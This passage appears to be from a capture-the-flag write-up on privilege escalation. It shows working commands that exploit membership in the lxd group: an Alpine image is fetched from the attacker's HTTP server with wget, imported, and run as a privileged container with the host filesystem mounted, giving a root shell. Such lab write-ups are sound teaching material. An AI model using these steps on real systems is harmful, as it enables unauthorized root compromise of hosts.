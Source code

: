 ![](10.png)

# **Privilege Escalation**

We the user `www-data` is part of the `lxd` group.

```terminal
www-data@ubuntu:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

We can refer to this [article](https://www.hackingarticles.in/lxd-privilege-escalation/) on how to exploit lxd.

First, we need to clone a github repository with the following command. 

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
```

Then we setup a http server in lxd-alpine-builder directory to server the archive file.

```bash
sudo python3 -m http.server 80
```
![](11.png)

Now on the compromised machine, we download the archive file with the following command:

```bash
wget http://{tun0_IP}/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

![](12.png)

Now we add an image like this:

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage 
```

And check if it's been added with:

```bash
lxc image list
```

![](13.png)

Great! Now let's execute the following command successively to get a root shell:

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![](14.png)

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
